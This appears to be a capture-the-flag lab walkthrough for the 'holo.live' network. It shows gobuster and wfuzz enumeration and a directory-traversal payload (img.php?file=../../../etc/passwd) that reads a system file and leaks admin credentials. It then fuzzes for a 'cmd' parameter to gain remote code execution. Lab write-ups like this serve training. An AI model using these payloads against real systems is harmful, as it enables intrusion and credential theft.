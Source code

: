 ```shell

gobuster dir -u www.holo.live -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -x php,html,bak,js,txt,json,docx,pdf,zip,aspx,sql,xml

gobuster dir -u dev.holo.live -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -x php,html,bak,js,txt,json,docx,pdf,zip,aspx,sql,xml

gobuster dir -u admin.holo.live -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -x php,html,bak,js,txt,json,docx,pdf,zip,aspx,sql,xml

#using LFI in dev page, get creds
#log into admin dashboard

#check for RCE by fuzzing in admin page
wfuzz -u http://admin.holo.live/dashboard.php?FUZZ=ls+-la -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt

#filter responses with certain word size
wfuzz -u http://admin.holo.live/dashboard.php?FUZZ=ls+-la -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt --hw 0
#this gives us a valid parameter

#we now have rce on admin dashboard page
```

* After adding the IP address of L-SRV01 and the domain to '/etc/hosts' file, we can use ```gobuster``` or ```wfuzz``` to check for virtual hosts.

* After running ```wfuzz```, we get some subdomains, which can be inspected further by adding them to '/etc/hosts'.

* Now, in the discovered subdomains, we need to scan the web directories to check for interesting files - we can use ```gobuster``` for this.

* Scanning the web directories shows that we have 'robots.txt' file in the subdomains 'www.holo.live' and 'admin.holo.live'.

* For the first subdomain, 'robots.txt' discloses the web server's current directory as ```/var/www/wordpress```.

* For the admin subdomain, 'robots.txt' contains a few disallowed files - one of them includes a .txt file which could contain creds.

* We cannot access this file, but now we have the directory disclosure here for admin subdomain as ```/var/www/admin```.

* Now, we can see that in the subdomain 'dev.holo.live', the images are loaded using 'img.php' file; however, it makes use of the 'file' parameter to do so:

  ```http://dev.holo.live/img.php?file=images/korone.jpg```

* This could be vulnerable to Local File Inclusion due to the presence of parameters; we can attempt to check for directory traversal here.

* For example, on the development domain, using Burp Suite's Repeater with this request, we can access ```/etc/passwd``` file:

  ```/img.php?file=../../../etc/passwd```

* Now, we can access the .txt file found earlier from the admin subdomain - this gives us the creds required for logging into the admin page.

* The admin page shows a dashboard - we can check for ways to get a shell on the target now.

* Here, we can attempt to identify RCE by fuzzing for a vulnerable parameter using ```wfuzz```.

* Using the parameter 'cmd', we get a valid response - we now have RCE on L-SRV01.
  ```